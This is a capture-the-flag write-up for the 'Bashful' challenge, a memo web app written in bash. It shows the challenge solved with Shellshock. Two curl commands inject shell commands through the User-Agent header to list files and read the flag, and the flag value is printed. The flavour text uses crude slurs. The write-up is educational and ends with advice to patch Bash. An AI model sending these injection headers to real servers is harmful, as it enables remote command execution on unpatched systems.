 # Bashful

## Problem

"How did I end up here?" is the only question you can think of since you've become a high school teacher. Let's face it, you hate children. Bunch of egocentric retards. Anyway, you are not going to take it anymore. It's time to have your little midlife crisis right in the face of these fuckers.

Good thing that you're in the middle of some project days and these little dipshits wrote a simple message storing web application. How cute. It's written in bash... that's... that's... aw- no... bashful. You've got the source, you've got the skills. 0wn the shit out of this and show them who's b0ss.

[Challenge](https://school.fluxfingers.net:1503/)

[Source](bashful.tar.bz2)

## Solution

Credit: [@emedvedev](https://github.com/emedvedev)

**Note**: we'll be taking a shortcut not intended by the challenge developers, so if you'd like to know how to properly exploit a website written in bash (no, grandson, we don't normally do that here in 2015, don't be frightened), find another write-up.

The site in question is a memo service: it gives you a `sessid` and lets you write memos while escaping all the special chars. There's also a `DEBUG` parameter, a vulnerability allowing you to mess with environment variables, and the `sessid` itself could be exploited, too, so there's probably a million ways to solve it. Well, disregard all that: it's written in Bash, so why try hard when you have [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug))?

```
$ curl -H "User-Agent: () { :; }; /bin/ls" https://school.fluxfingers.net:1503/
404.sh
flag
home.html
home.sh
index.sh

$ curl -H "User-Agent: () { :; }; /bin/cat flag" https://school.fluxfingers.net:1503/
flag{as_classic_as_it_could_be}
```

Done.

Again, that was not an intended solution, but there's still something to learn here: even if you're as security-conscious as most CTF organizers, eventually there _will_ be an attack vector you neglected, more often than not a stupidly simple one. Pay attention to the little things, be vigilant and go patch your Bash. Right now.
